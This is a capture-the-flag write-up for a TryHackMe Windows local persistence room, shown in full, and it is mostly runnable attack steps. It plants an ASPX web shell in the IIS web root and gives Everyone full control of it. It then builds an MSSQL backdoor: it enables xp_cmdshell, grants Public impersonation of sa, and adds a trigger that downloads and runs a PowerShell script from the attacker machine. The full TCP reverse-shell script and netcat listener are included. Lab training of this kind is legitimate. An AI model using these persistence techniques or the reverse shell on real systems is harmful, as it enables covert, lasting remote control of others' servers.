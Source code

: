 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Using Web Shells
1. Started this room's machine
2. `firefox <URL>`
```Bash
root@ip-10-10-32-42:~# firefox https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Firefox%20cmdaspx.net%20Github.png)

3. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
4. `(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')`
```PowerShell
PS C:\Users\Administrator> (New-Object System.Net.WebClient).Downloadfile('http://10.10.32.42:8000/cmdasp.aspx','shell.aspx')
```
5. `dir`
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `icacls <ASPX,WEB SHELL FILE PATH> /grant Everyone:F`
```PowerShell
PS C:\Users\Administrator> icacls shell.aspx /grant Everyone:F
processed file: shell.aspx
Successfully processed 1 files; Failed processing 0 files
```
7. `move shell.aspx C:\inetpub\wwwroot\`
```PowerShell
PS C:\Users\Administrator>move shell.aspx C:\inetpub\wwwroot\
        1 file(s) moved.
```
8. `explorer.exe "http://<TARGET IP>/shell.aspx"`
```PowerShell
PS C:\Users\Administrator> explorer.exe http://10.10.219.169/shell.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Open.png)

9. `C:\flags\flag16.exe`

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Flag.png)

# Using MSSQL as a Backdoor
1. Started this room's machine
2. Search for **Microsoft SQL Server Management Studio 18** and launch it

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Search.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt2.png)

3. Launch and execute the following four queries:

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt.3.png)

```SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%201.png)

```SQL
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%202.png)

```SQL
USE HRDB
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%203.png)

```SQL
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<ATTACK MACHINE IP>:8000/<POWERSHELL SCRIPT>.ps1'')"';
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%204.png)

4. `mousepad <POWERSHELL SCRIPT>.ps1` and
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACK MACHINE IP>",<PORT NUMBER>);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Creating%20evilscript.ps1.png)

5. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
7. `explorer.exe http://<TARGET IP>/`
```PowerShell
C:\Users\Administrator>explorer.exe "http://10.10.138.69/"
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt2.png)

```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.138.69 49758 received!
```

8. `C:\flags\flag17.exe`
```PowerShell
PS C:\Windows\system32> C:\flags\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}
```
